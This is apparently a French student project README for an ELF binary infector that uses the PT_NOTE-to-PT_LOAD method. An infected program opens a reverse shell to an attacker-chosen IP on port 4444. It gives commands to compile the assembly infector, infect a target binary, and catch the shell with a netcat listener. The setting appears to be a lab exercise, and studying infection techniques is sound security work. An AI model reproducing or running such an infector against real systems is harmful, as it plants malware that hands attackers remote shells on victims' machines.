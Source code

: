 # tp_note-tp_load-asm

Lucas MILLER 3SI4

Ce projet est un programme d'infection d'ELF à travers la méthode pt_note to pt_load.

Il n'est pas nécessaire de désactiver l'ASLR.
Ce programme est dynamique et ne nécessite donc pas de modifier le code lors de l'utilisation sur un autre programme.
Une fois infecté, le programme va, lors de son lancement, exécuter un reverse shell sur l'IP choisie.
L'IP peut être choisie lors du lancement, mais le port sera toujours 4444.

Il fonctionne sur les ELF avec les arguments -no-pie.

### Voici les commandes à lancer pour vérifier son bon fonctionnement.

Compiler le programme sain. Il peut être modifié en amont.
```
gcc -no-pie /saine-code/safe_code.c -o /saine-code/safe_code
```

Compilation de l'infecteur :
Il se compile ainsi :
```
nasm -f elf64 -o main/pt_note_to_pt_load_infector.o main/pt_note_to_pt_load_infector.s && ld -o main/pt_note_to_pt_load_infector main/pt_note_to_pt_load_infector.o
```
Puis lancement du programme :
Il va infecter le programme donné en argument
```
main/pt_note_to_pt_load_infector /saine-code/safe_code
```

## Pour vérifier le reverse shell : 
```
./saine-code/safe_code
```

Éxécution normal du programme

```
./saine-code/safe_code
```

En parallèle :

```
nc -lnvp 4444

```


